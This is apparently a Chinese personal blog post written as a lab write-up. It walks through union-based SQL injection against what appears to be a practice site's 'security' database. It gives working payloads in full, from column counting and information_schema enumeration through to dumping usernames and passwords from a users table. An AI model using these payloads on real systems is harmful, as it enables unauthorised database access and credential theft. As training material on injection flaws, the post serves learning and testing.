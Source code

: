 ```yaml
---
layout: post
title:  "初来乍到"
desc: "我的第一篇博客"
keywords: "sql"
date: 2016-11-10
categories: [work]
tags: [blog]
icon: fa-bookmark-o
---
```


# Writeup
首先注入
>### ?id=1。


Ok。出现Your Login name和Password。

再添加一个单引号。
嗯？！出现sql语句报错，说明存在sql注入，因为没有过滤单引号，所以我们可以用单引号来做文章啦。

接下来，就是猜字段了。
>### ?id=1’ order by 3#

可怕的事出现了。报错了。#没有被编码。香菇。上网找了一下#的URL编码为%23

所以改为
>### ?id=1’ order by 3%23

有显示。试了一下4 。呐报错了。只有三个字段。

接下来就是查询啦啦啦、

>### ?id=1’ union select 1,2,3%23

What？为什么只显示了当`id=1`的东西。What？真让人头大。只好去看源码。

函数`mysql_fetch_array`只被调用了一次，而这个函数只能取得一行行为，也就是说，怎么变它也只能显示第一行的东西。也就是`id=1`。怎么办。让id=1出错？好像能行。

上网一搜。呐id的值通常都是从1开始自增的。我们可以把d设为非正数，浮点数，字符型或字符串都行。

试试?
>### id=0’ union select 1,2,3%23

OK！出来了。太棒了。开始真正搞事情了。、

但是只有两行，怎么列出所有的。呐不担心上网一搜什么都能告诉你。

数据库有一个连接函数，常用的是`concat`和`concat_ws`。其中`concat_ws`的第一个参数是连接字符串的分隔符。

{% highlight sql %}
 
?id=0’ union select 1,2,concat_ws(char(32,58,32),user(),database(),version())%23

{% endhighlight %}

呐。出来了出来了。第一个是当前用户，当前数据库和版本信息。

知道数据库名了。就去查数据库的表啦。。
（首先说一下`mysql`的数据库`information_schema`，他是系统数据库，安装完就有，记录是当前数据库的数据库，表，列，用户权限等信息，下面说一下常用的几个表

`SCHEMATA`表:储存`mysql`所有数据库的基本信息，包括数据库名，编码类型路径等，`show databases`的结果取之此表。

`TABLES`表:储存`mysql`中的表信息，（当然也有数据库名这一列，这样才能找到哪个数据库有哪些表嘛）包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等。`show tables from schemaname`的结果取之此表

`COLUMNS`表：提供了表中的列信息，（当然也有数据库名和表名称这两列）详细表述了某张表的所有列以及每个列的信息，包括该列是那个表中的第几列，列的数据类型，列的编码类型，列的权限，猎德注释等。是`show columns from schemaname.tablename`的结果取之此表。）

摘自http://blog.csdn.net/u012763794/article/details/51207833

介绍完就开干。

{% highlight sql %}

?id=0’ union select 1,2,table_name from information_schema.tables where table_schema=’security’%23

{% endhighlight %}

数据库默认显示`limit 0,1`。第一个是`emails`。接着找，用`limit`来偏移。具体如下：

{% highlight sql %}

?id=0’ union select 1,2,table_name from information_schema.tables where table_schema=’security’ limit 1,1%23

?id=0’ union select 1,2,table_name from information_schema.tables where table_schema=’security’ limit 2,1%23

?id=0’ union select 1,2,table_name from information_schema.tables where table_schema=’security’ limit 3,1%23

{% endhighlight %}

分别是`refers`、`uagents`、`users`。

继续

{% highlight sql %}

?id=0’ union select 1,2,table_name from information_schema.tables where table_schema=’security’ limit 4,1%23

{% endhighlight %}

报错了。只有三个。可以下一步啦。

我们注入当然就只对用户密码有想法啦。所以去爆破`users`哈哈哈、

{% highlight sql %}

?id=0’ union select 1,2,column_name from information_schema.columns where table_shcema=’security’ and table_name=’users’limit 0,1%23

{% endhighlight %}

不断地偏移。到第四行就报错。也就说有3个字段。

分别是`id`、`username`、`password`

Ok！知道字段就开始获取数据啦。直接`select`出来就好啦。

{% highlight sql %}

?id=0’ union select 1,2,concat_ws(char(32,58,32),id,username,password) from users limit 0,1%23

{% endhighlight %}

得到要得到数据。成功。Yeah！
